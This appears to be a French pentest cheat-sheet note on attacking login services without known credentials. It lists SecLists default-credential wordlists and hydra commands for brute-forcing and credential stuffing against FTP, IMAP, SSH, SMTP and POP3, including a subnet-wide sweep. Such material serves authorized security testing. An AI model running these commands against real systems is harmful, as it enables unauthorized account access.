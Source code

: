 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Sans connaitre un identifiant ou mot de passe

### Comptes par défaut ou très fréquemment utilisés

Selon le service à attaquer, on pourra utiliser hydra avec le paramètre `-C` et fournir un dictionnaire (wordlist) contenant des couples `utilisateur:mot_de_passe` séparés par un `:`

Plusieures wordlist de ce type sont disponibles dans `/usr/share/seclists/Passwords/Default-Credentials/` (notamment `ftp-betterdefaultpasslist.txt`)

### Tenter des utilisateurs et mots de passe communs

On pourra générer des comptes utilisateurs connus


```
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN

# credential stuffing
hydra -C user_pass.list ssh://$TARGET_IP
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh

# bruteforce mail service password for known user
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP smtp -t 64  
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP pop3 -t 64 
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP imap -t 64 

```
Plus d'exemple d'utilisation de l'outil : [[Hydra]]
